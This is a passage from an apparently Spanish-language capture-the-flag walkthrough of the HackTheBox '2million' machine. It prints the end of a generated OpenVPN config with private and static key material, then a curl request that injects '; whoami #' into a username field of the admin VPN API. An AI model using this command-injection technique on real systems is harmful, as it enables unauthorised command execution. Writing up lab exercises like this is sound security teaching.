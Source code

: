 ```
t2A8JBCNK+9Ez9Kk/HIys4/BnDGuwSPWYTuCjMPmHOu9Ei+rIJk/ecdnBNEIYEMu
/bHfMZDThB2hSqpykOHf9uwD6cwYKsAvAj+Tty4gbOWWibmm+IEtiThQ6tJFRW/4
JnvehfDK0W2TfR0WD1toZQtsZ4l0mQIlsiJmYaXH7QKBgQDI84J28NEDsq3Bl71v
udTe/teWBgM09Tv2zRkMcoagA5BxipA6TrtmntwF2M9DGevn0NiKsDEDq0xoqiFa
Veg44NFIZvkd8H8wj/68E3tOexklKZfL/t846/BRxwVmq0dCpRL5d1r5Js2oDmdQ
YKcl/X5x1Vlprg3A5Fs190awXQKBgQDd1nOVGvakFyNhMROsEdpk8NacCcKkfiTq
21tjZk/n8Gb4LqrqS3XhbhseEe6e2Oj7VhDJHT0bDZd0LhqIzAWMB3ZqyROsKMae
CzuGzXKZ4ZctvJz0HRQlC6qfuCPqtmnQRi3bzllBIjn1ki5PvoqFYELAjJ5Kx26r
Z+mdCQDiDwKBgDiQ01jH0Q5Jbb/hBuI8XT+oXOdOKfjuT0LZ2QM3+c1xM2fCqXbA
UuBAN48tyKoK0e0fTNU9Y4602X1c5qaXKBdasY6/7cAPwr3YyswGb99Xp2xemOxD
gnJzd+KNM2gDLrwD26N9hY487gcwhsSJcIOxJ7bDZ7fn1tdFcKdwQ+XBAoGACVUN
NbeVqp+CkIMlBbcWjeqHzLaoZo0b9nlV5d+W+vXlDwm/jO2xvtMH9wLgG/SaEIC1
YhCF0o6G0Y9i9GBI13Q06hcdab+pY1qrnWclLA4OcxEdNTPH9isAeYmgkS4tU2Kw
aS/MF25eK9ODeT1VzHiZNkp0Gkc7g6BydnW7gMcCgYArkV7sGwjKx0xsgj5qpih3
OjaPmGIIwh1FBbyHmFajjV8Pac1333GpHjF/+GE1KtOueGIQuELCtsyWECkwMhPH
GG9cbUK8sH4sPyuq+Bs1Pj7OzpnrUpe0Z0vcthcnLpMaTQxUUk3t7uvWaNP7h6o5
BzcWU8XjJM7CJq/vuf+cGg==
-----END PRIVATE KEY-----
</key>
<tls-auth>
#
# 2048 bit OpenVPN static key
#
-----BEGIN OpenVPN Static key V1-----
45df64cdd950c711636abdb1f78c058c
358730b4f3bcb119b03e43c46a856444
05e96eaed55755e3eef41cd21538d041
079c0fc8312517d851195139eceb458b
f8ff28ba7d46ef9ce65f13e0e259e5e3
068a47535cd80980483a64d16b7d10ca
574bb34c7ad1490ca61d1f45e5987e26
7952930b85327879cc0333bb96999abe
2d30e4b592890149836d0f1eacd2cb8c
a67776f332ec962bc22051deb9a94a78
2b51bafe2da61c3dc68bbdd39fa35633
e511535e57174665a2495df74f186a83
479944660ba924c91dd9b00f61bc09f5
2fe7039aa114309111580bc5c910b4ac
c9efb55a3f0853e4b6244e3939972ff6
bfd36c19a809981c06a91882b6800549
-----END OpenVPN Static key V1-----
</tls-auth>
```

Nos lo genera bien, pero no nos interesa esto, vamos a probar a realizar un `comman injection` a ver si funciona, ya que por detras se esta ejecutando un comando y posiblemente comentando lo siguiente y concatenando un comando podremos ejecutar comandos en el sistema de esta forma:

```shell
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" \
  -d '{"username":"diseo; whoami #"}'
```
